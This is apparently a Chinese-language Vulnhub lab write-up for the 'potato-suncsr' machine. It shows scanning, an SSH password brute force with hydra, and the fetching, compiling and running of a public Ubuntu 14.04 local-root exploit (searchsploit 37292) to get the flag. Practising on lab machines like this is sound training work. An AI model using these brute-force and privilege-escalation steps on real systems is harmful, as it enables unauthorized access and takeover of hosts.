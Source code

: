 ```yaml
---
layout: post
title: potato-suncsr
subtitle: potato-suncsr
date: 2025-07-12 10:24
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
number headings: first-level 2, max 4, 1.1., auto
published: true
---
```

## 1. 信息搜集

扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/NvGNLM.png)

扫描端口

![image.png](https://img.ghostliner.top/SUmsGq.png)

访问80端口，未发现有效信息，目录扫描发现 `/info.php`

`whatweb` 未发现信息

## 2. SSH爆破

```shell
hydra -l potato -P 字典2/字典.txt -vV ssh://192.168.163.133:7120
```

![image.png](https://img.ghostliner.top/Q688l8.png)

```shell
ssh -p 7120 potato@192.168.163.133
```

## 3. 提权

进入目标机后，尝试sudo, find 提权失败，查看系统信息

```shell
cat /etc/issue
uname -a
```

![image.png](https://img.ghostliner.top/N5KzN9.png)

搜索相关漏洞

```shell
searchsploit ubuntu 14.04
```

![image.png](https://img.ghostliner.top/7OioDi.png)

```shell
# 复制文件
searchsploit -m 37292
# 传输到目标机
scp -P 7120 37292.c potato@192.168.163.133:~
```

在目标机上编译并执行

```shell
gcc 37292.c
./a.out
```

![image.png](https://img.ghostliner.top/BNYY9H.png)

找到flag
![image.png](https://img.ghostliner.top/vmiV9f.png)
